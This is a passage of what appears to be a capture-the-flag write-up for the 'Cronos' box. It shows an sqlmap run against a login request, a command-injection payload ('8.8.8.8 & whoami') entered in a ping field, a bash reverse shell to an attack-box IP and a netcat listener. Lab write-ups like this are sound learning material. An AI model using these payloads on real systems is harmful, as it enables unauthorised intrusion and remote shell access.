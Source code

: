 Regardless, if you want to perform the attack using sqlmap, first intercept the request using Burp and save it in a file (login.txt). Then, run sqlmap on the request.

    sqlmap -v 4 -r login.txt

I used the verbosity level 4 so that I can see the payload sqlmap uses for each request.

![](../img/Cronos Writeup/1_jxxay73Vo5QZO204n3HLZw.png)

For the above payload we get a redirect to the welcome page. To test it out, go back to the browser and enter the payload in the username field. Then hit submit.

![](https://cdn-images-1.medium.com/max/2000/1*2Spbxzsu_cI_IiIdJrVzuw.png)

We’re presented with the login page!

![](../img/Cronos Writeup/1_0lUw-G6uCqlf7Mjzd0FZmA.png)

Now that we saw both the manual & automated way of exploiting SQL injections, let’s proceed with solving the box.

The commands being used on the welcome page are “traceroute” and “ping” so this specific functionality of the application clearly talks to the operating system. Let’s see if it’s vulnerable to command injection. Add the following in the input field and execute the code.

    8.8.8.8 & whoami

What the above command does is run the the preceding command (ping 8.8.8.8) in the background and execute the whoami command.

We get back the following result. It’s definitely vulnerable! The web server is running with the privileges of the web daemon user www-data.

![](../img/Cronos Writeup/1_K3dFDGqCBL3kKmpSaMs71g.png)

Since we can run arbitrary commands using this tool, let’s get it to send a reverse shell back to our attack box.

**Note**: It’s not necessary to do this using Burp.

First, intercept the request with Burp and send it to Repeater (right click > Send to Repeater).

Go to pentestmonkey [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and grab the bash reverse shell. Change the IP address and port to those applicable to your attack machine.

    /bin/bash -i >& /dev/tcp/10.10.14.6/4444 0>&1

Highlight the entire string and click on CTRL+U to URL encode it.

![](../img/Cronos Writeup/1_4kzlbFV-7uYIf1JzpmDEsA.png)

Set up a listener on the attack machine.

    nc -nlvp 4444

Execute the request. It doesn’t send a reverse shell back. Check if bash is installed on the machine.
